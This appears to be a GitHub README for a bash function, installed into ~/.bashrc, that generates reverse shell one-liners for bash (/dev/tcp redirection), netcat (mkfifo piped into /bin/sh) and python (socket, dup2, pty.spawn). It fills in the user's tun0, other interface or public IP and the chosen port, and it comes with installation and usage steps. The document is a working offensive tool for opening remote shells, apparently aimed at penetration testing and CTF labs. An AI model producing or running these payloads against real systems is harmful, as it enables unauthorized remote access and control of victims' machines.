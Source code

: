 # Set a Bash Alias for Common Reverse Shell's
```bash
reverse ()
{
  local port=443;
  adaptors=$(ip a | egrep ^[0-9]+ | cut -d" " -f 2 | sed 's/://g');
  OPTIND=1;
  usage()( echo "reverse [-i <interface>] [-l <language>] [-p <port>]";
  printf "Language Options:\n  bash\n  nc\n  python\n\n" );
  while getopts ":i:l:p:h" options; do
      case "${options}" in
        i) local interface=${OPTARG};
          if ! echo $interface |  egrep -qo "public"; then
            if ! echo $adaptors | grep -qo "$interface"; then
              echo  "Interface "${OPTARG}" does not exist";
              usage;
              return;
            fi;
          fi
          ;;
        l) local language=${OPTARG}
          ;;
        p) local port=${OPTARG}
          ;;
        h) usage;
          return
          ;;
        :) echo "Error: -${OPTARG} requires an argument";
          usage;
          return
          ;;
        *) echo "Unknown Switch: -${OPTARG}";
          usage;
          return
          ;;
        esac;
      done;
      if [ -z $interface ]; then
        if ip a | egrep -qo "tun0"; then
          local interface="tun0";
        elif echo $interface | egrep -qo "public" ; then
          local interface="public";
        elif ip a | egrep -qo "eth0"; then
          local interface="eth0";
        elif ip a | egrep -qo "ens33"; then
          local interface="ens33";
        else
          local interface="lo";
        fi;
      fi;
      if echo $interface | egrep -qo "public"; then
        local ip=$(wget -qO - ipv4.icanhazip.com);
      else
        local ip=$(ip a show $interface | egrep -o "([0-9]{1,3}.){3}[0-9]{1,3}" | head -1);
      fi;
      local randName=$(head -4 /dev/urandom | sha256sum | base64 | head -c 5);
      declare -A shells=( ["bash"]="bash -i >& /dev/tcp/$ip/$port 0>&1" ["nc"]="mkfifo /tmp/$randName; nc $ip $port 0</tmp/$randName | /bin/sh >/tmp/$randName 2>&1; rm /tmp/$randName" ["python"]="python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$ip",$port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'" );
      if [ -z $language ]; then
        printf "\n";
        for i in "${shells[@]}";do
          printf "$i\n\n";
        done;
        return;
      fi;
      printf "\n${shells[$language]}\n\n"; }
```
# Instructions
<br>
• 1. vim ~/.bashrc
<br>
• 2. copy and paste the above text (see screenshot)
<br>
• 3. save, then open a new terminal and type "<b>reverse -h</b>"
<br>
• 4. the function will default to your tun0 IP 

# Usage

```
reverse -h

reverse -i tun0 -p 9001

reverse -i public -p 9001
```

# Screenshots
<i>~/.bashrc</i>
<img src="https://i.imgur.com/9AtWWvn.png">
<br>
<i>running the alias</i>
<img src="https://i.imgur.com/muKxjaf.png">
<br>
<img src="https://i.imgur.com/xvULtzH.png">
<br>
<b>Please feel free to modify this!</b>
<br>
<center>Special thanks to https://github.com/MuirlandOracle for the quirky Bash help! </center> 
